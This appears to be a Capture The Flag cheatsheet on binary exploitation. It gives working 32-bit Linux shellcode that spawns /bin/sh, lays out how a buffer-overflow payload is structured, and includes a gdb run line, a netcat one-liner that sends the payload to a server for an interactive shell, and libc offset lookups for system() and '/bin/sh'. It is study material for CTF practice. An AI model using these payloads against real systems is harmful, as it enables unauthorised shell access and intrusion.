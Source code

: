 # Capture The Flag Cheatsheet

Example commands to aid in solving CTF problems.

## Binary Exploitation

#### Using 32-bit Shellcode

Reliable Linux/x86 (32-bit) shellcode. To find shellcode for your target architecture, see [shell-storm's list](http://shell-storm.org/shellcode/).

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```
Anatomy of a payload for buffer overflow:

```
Buffer start                                                     Saved EBP              Return address                     Next Return address       Argument list
|                                                                |                      |                                  |                         |
[optional NOP (0x90) bytes] [injected shellcode] [padding bytes] [fake/garbage address] [desired return address (&callee)] [callee's return address] [optional argument 1] [optional argument 2, etc]
```

Debugging shellcode in gdb - open binary, set a breakpoint at the start of the vulnerable function, run with payload bytes sent to stdin.

```
gdb ./binary
b vuln_func
r < <(python2 -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x90"*111 + "\x90"*4 + "\x80\xa0\x04\x08"')
```
Send the payload to server 10.0.0.1, listening on port 1337. Note the appended cat command keeps the netcat sesssion open, granting an interactive shell:

```
(python2 -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x90"*111 + "\x90"*4 + "\x80\xa0\x04\x08"'; cat) | nc 10.0.0.1 1337
```
#### Computing offsets into libc

Assume you the know the address, in memory, at which libc has been loaded and have a local copy of the same libc version. To get offset of system():

```
readelf -s /lib/x86_64-linux-gnu/libc-2.21.so | grep "system"
```

To get the offset of the "/bin/sh" string:

```
strings -t x /lib/x86_64-linux-gnu/libc-2.21.so | grep "/bin/sh"
```
